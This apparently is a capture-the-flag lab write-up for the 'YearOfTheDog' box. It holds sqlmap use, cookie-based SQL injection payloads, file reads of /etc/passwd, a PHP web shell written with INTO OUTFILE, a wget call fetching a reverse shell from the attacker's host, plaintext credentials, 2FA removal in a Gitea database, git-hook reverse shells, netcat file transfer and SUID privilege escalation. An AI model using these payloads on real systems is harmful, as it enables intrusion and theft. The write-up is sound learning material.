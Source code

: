 # YearOfTheDog

```
Ports:
22
80
```

Nothing interesting found searching directoris, higest ports.
try use sqlmap 

: sqlmap -u http://10.10.11.217/ --dump-all --level 5 --risk 3 --batch
	[02:59:05] [INFO] testing connection to the target URL
	you have not declared cookie(s), while server wants to set it sown('id=5f9d79710af...8d71d695f5').

edit cookie id='
	#response

	HTTP/1.1200OK
	Date:Fri,09Dec202208:00:20GMT
	Server:Apache/2.4.29(Ubuntu)
	Vary:Accept-Encoding
	Content-Length:156
	Connection:close
	Content-Type:text/html;charset=UTF-8

	Error:YouhaveanerrorinyourSQLsyntax;checkthemanualthatcorrespondstoyourMySQLserverversionfortherightsyntaxtousenear'''''atline1

### Payloads

Cookie:id='unionselect1,database()---

Cookie:id='UNIONSELECT1,group_concat(table_name)FROMinformation_schema.tablesWHEREtable_schema=database()---
	Youarenumberqueueinthequeue

Cookie:id='unionselect1,group_concat(column_name)frominformation_schema.columnswheretable_schema=database()---
Cookie:id='unionselect1,group_concat(userID)fromqueue---

nothing really interesting

Try sqlinjection read files

Cookie:id='unionselect1,LOAD_FILE("/var/log/apache2/access.log")---

Cookie:id='unionselect1,LOAD_FILE("/etc/passwd")---
```	SUCESS
	dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash```

LOADindex.php
	require_once"config.php";

	if(!isset($_COOKIE["id"])){
		$cookie=bin2hex(random_bytes(16));
		$queueNum=rand(1,100);
		setcookie("id",$cookie,NULL,"/");
		
		$sql="INSERTINTOqueueVALUES('".$cookie."',".

UPLOAD FILES in HEX
Cookie:id='unionselect1,0x48656c6c6f20776f726c640aINTOOUTFILE'/var/www/html/test.php'---
	'HelloWorld'

after try convert "php-reverse-shell" in hexa received exceeds server limit
try upload RCE


```
 echo '<?PHP system($_GET["c"];?>' | xxd
 echo '0x3C3F5048502073797374656D28245F4745545B2263225D3B3F3E0A' | xxd -r -p
	<?PHP system($_GET["c"];?>


 echo '0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A' | xxd -r -p
 	<?PHP system($_REQUEST["c"];?>

```
Cookie: id='UNION SELECT 1,0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A INTO OUTFILE '/var/www/html/funrce.php'-- -


# First Access

http://{ip}/funrce.php?c=wget http://{ip}/reverse.php
http://{ip}/reverse.php


in /home/dylan/ found file with log {work_analysis}
read log found credentials

dylan:Labr4d0rs4L1f3

: ss -ltp
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:44269         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -                   
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -

tunneling: 
: ssh -L 3000:127.0.0.1:3000 dylan@{ip}

login page with 2FA

dylan@year-of-the-dog:/gitea/gitea$ sqlite3 gitea.db 
	Command 'sqlite3' not found

sqlite3 not instaled, for login and delete "two factor auth" we can use python connect
```
 import sqlite3
 s=sqlite3.connect("gitea.db")
 s.execute("delete from two_factor")
 s.commit()
 s.close()
 exit()
```

we can connect now

find git-hooks and add command line in pre-receive and update with reverse shell

edit README.md and commit changes to gain shell

# in container

: sudo -l

(ALL) NOPASSWORD: ALL

: sudo su root

access /data this directory exist in main system

use netcat to transfer /usr/bin/find to kali machine from dylan machine

nc {ip} 4444 > find

nc {kali@mchine} 4444 < /usr/bin/find 

start python server

in container ##

wget http://{kali}/find
chmod 4755 find  		## suid permission

dylan@machine: ./find . -exec /bin/sh -p\; -quit

root#>
